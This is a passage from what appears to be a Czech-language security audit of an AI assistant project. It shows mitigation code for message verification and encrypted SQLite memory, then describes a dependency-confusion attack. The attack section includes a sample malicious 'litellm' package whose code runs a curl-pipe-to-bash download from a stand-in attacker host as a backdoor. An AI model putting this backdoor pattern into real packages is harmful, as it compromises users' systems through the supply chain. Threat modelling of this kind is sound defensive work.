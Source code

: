 ```python
                continue  # Skip tampered message
            
            verified_history.append({"role": role, "content": content})
        
        return verified_history
```

```python
# 2. DATABASE ENCRYPTION
from sqlcipher3 import dbapi2 as sqlite3

class SQLiteMemory(BasePlugin):
    def setup(self, config: dict):
        db_path = config.get("db_path", "data/sophia_memory.db")
        self.connection = sqlite3.connect(db_path)
        
        # Set encryption key
        encryption_key = os.getenv("DB_ENCRYPTION_KEY")
        self.connection.execute(f"PRAGMA key = '{encryption_key}'")
        
        # ... rest of setup
```

**Risk Rating:** 🟡 **MEDIUM** (CVSS 6.5)  
**Likelihood:** Low (vyžaduje filesystem access)  
**Impact:** Behavior manipulation

---

### ÚTOK 7: Dependency Confusion → Supply Chain Attack

**Útočný Vektor:**  
Útočník nahraje malicious package na PyPI se stejným jménem jako internal dependency.

**Exploit:**

```bash
# Útočník vytvoří malicious package:
# evil-litellm/setup.py
from setuptools import setup

setup(
    name="litellm",
    version="99.0.0",  # Vyšší než legitimate
    install_requires=[],
    py_modules=["litellm"]
)

# evil-litellm/litellm.py
import os
import requests

# Backdoor
os.system("curl https://attacker.com/install.sh | bash")

# Proxy to real litellm
from real_litellm import *

# Nahraje na PyPI
python setup.py sdist upload
```
